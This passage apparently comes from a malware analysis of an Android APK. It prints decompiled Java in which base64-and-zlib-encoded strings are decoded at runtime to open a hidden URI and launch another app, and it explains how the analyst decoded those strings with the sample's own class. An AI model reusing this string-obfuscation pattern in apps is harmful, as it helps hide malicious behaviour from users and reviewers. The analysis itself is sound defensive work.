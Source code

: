 ```java
[TRUNCATED]
Intent psi = new Intent("android.intent.action.VIEW");
            psi.setData(Uri.parse(encrypt.decode("eJzLTSzKTi2x0tcvTk0sSs6wL7QtyEvMTbUCAG8VCMs=")));
            psi.setFlags(268435456);
            startActivity(psi);
            Intent mrt = getPackageManager().getLaunchIntentForPackage(encrypt.decode("eJxLzs/VS8xLKcrPTNErS81LycxLBwBJFQdo"));
            startActivity(mrt);
            finish();
[TRUNCATED]
```

## encrypt Class

The encrypt class appears to be doing the bulk of the work for decoding the hardcoded strings supplied via the APK. The encoding is using a mix of `base64` and `zip` you can read more about the class imported from the zip library [here](https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/util/zip/InflaterInputStream.html).

```java
[TRUNCATED]
public static String decode(String paramString) throws IOException {
        if (buf == null) {
            buf = new byte[8192];
        }
        if (baos == null) {
            baos = new ByteArrayOutputStream(8192);
        }
        InflaterInputStream localInflaterInputStream = new InflaterInputStream(new ByteArrayInputStream(Base64.decode(paramString, 0)));
        baos.reset();
        int i = localInflaterInputStream.read(buf);
        while (i != -1) {
            baos.write(buf, 0, i);
            int j = localInflaterInputStream.read(buf);
            i = j;
        }
        localInflaterInputStream.close();
        String str = new String(baos.toByteArray(), "UTF-8");
        return str;
    }
}
```

### Stand Alone Decryption

Using Visual Studio Code I was able to drop the class as a stand alone Java file that allowed for quick decoding of the encrypted strings. This could also be done using [Programiz](https://www.programiz.com/java-programming/online-compiler/) or any other stand alone Java compiler if the include libraries are supported. I did a bit of modification to the class and `grepped` out the strings before hand and supplied them as an array into the `decode` method. 
